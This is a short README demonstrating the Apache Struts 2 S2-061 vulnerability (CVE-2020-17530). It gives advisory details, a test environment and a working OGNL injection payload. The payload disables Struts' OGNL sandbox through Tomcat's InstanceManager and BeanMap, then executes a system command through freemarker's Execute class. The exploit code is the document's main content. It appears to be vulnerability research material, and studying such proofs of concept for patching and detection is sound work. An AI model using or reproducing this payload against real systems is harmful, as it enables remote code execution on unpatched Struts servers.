

# S2-061 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution vulnerability                 |
| Maximum security rating | Important                                                    |
| Recommendation          | Upgrade to [Struts 2.5.26](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26) or greater |
| Affected Software       | Struts 2.0.0 - Struts 2.5.25                                 |
| Reporters               | Alvaro Munoz - pwntester at github dot comMasato Anzai of Aeye Security Lab, inc. |
| CVE Identifier          | CVE-2020-17530                                               |

## Problem

S2-061是对S2-059补丁的绕过。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

命令执行：

```java
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```



## Reference

- [S2-061](https://cwiki.apache.org/confluence/display/WW/S2-061)
- [Struts2 s2-061 Poc分析](https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw)